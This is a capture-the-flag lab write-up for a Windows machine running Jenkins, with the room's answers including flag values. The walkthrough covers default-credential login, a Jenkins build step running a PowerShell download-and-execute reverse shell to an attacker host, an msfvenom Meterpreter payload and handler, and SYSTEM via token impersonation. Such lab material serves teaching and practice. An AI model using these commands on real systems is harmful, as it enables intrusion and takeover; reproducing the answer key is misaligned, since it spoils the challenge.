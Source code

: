 # Questions

1. How many ports are open? (TCP only)
	1. 3
2. What is the username and password for the login panel?
	1. admin:admin
3. What is the user.txt flag?
	1. 79007a09481963edf2e1321abd9ae2a0
4. What is the final size of the exe payload that you generated?
	1. 73802
5. Use the `impersonate_token "BUILTIN\Administrators"` command to impersonate the Administrators' token. What is the output when you run the `getuid` command?
	1. NT AUTHORITY\SYSTEM
6. Read the root.txt file located at C:\Windows\System32\config
	1. dff0f748678f280250f25a45b8046b4a

# Write up

## Initial Access

Start by scanning for open ports and versions of software running on those ports `nmap -sV TARGET_IP` this shows us 3 open ports 80,3389,8080 running a Microsoft IIS httpd 7.5 server, an ssl server, and Jetty 9.4.z-Snapshot respectively.

We can then fuzz different endpoints `ffuf` of the webserver running on port 8080, doing so gives us a login portal. We can either try to brute force the login using something like hydra or try default credentials; in this case the defaults admin:admin work to give us access.  

Now that we have access to the Jenkins instance, we can create a new project and add a build instruction to execute the following windows batch command which gives us a reverse shell `powershell iex (New-Object Net.WebClient).DownloadString('http://ATTACKER-IP:ATTACKER-WEBSERVER-PORT/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER-IP -Port NC-PORT`

once we have the reverse shell we can find and output the contents of the user flag `get-content C:\users\bruce\Desktop\user.txt`

## Switching Shells

Now that we have access, we want to switch to a meterpreter shell, we can generate the payload using msfvenom `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=tun0 LPORT=5000 -f exe -o shell-name.exe`

We can then download the file to the following `powershell "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER-IP:ATTACKER-WEBSERVER-PORT/shell-name.exe','shell-name.exe')"`

We then want to prep metasploit to recieve the session using the following commands
``` bash
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST tun0 
set LPORT 5000
run
```

## Privilege Escalation

Now that we have initial access, let's use token impersonation to gain system access. In PS run `whoami /priv` to get a list of enabled privleges. You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled.

To exploit these, we'll use the following commands. Once we impersonate an admin, we can migrate to a process with the appropriate privileges and read from the root.txt file
``` bash
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
pid
migrate "services.exe pid"
cat C:/Windows/System32/config/root.txt
```
